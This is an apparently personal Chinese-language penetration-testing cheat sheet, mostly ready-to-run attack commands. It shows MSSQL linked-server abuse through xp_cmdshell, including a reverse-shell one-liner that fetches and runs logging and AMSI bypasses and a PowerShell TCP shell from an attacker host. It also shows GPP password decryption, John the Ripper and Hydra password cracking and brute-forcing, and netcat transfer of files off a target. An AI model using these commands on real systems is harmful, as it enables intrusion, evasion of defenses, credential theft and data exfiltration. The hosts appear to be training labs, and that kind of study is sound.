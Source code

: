 >[!TIP]
Microsoft SQL Server 裡，**Linked Server** 是一種可以讓一台 SQL Server 去存取另一台 SQL Server（甚至是其他資料來源）的設定，DBA 為方便管理，常常建立 Linked Server，但如果安全性設定不當，可能使用固定的高權限帳號去連，或是可能允許執行遠端查詢甚至 `xp_cmdshell`。
- 執行程式碼
```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "exec master..xp_cmdshell 'set username'"
```
- Reverse Shell
```
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.x/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.100.x/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.100.x/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget eu-sqlx
  ```
# 密碼相關
>[!WARNING]
>一些破解密碼的小程式
## 解密
- gpp-decrypt (SVC_TGS decrypt)
```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
## 密碼爆破
### John the Ripper
- MD5
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash1.txt --format=raw-md5
```
- shadow 
```
john --format=sha512crypt unshadow --wordlist=/usr/share/wordlists/rockyou.txt
```
- NTLM hash
```
john --format=NT ntlm.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
### Hydra
- SSH
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.163.18
```
- HTTP-Post
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.163.18 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```
# 資料傳輸相關
>[!WARNING]
>讓資料攻擊跟目標互相傳輸資料的方法
## nc.exe
>粗暴好用
```
nc -nvlp 4444 >20231223144028_ILFREIGHT.zip
```
```
nc -w 3 10.10.15.20 4444 < 20231223144028_ILFREIGHT.zip
```
## SCP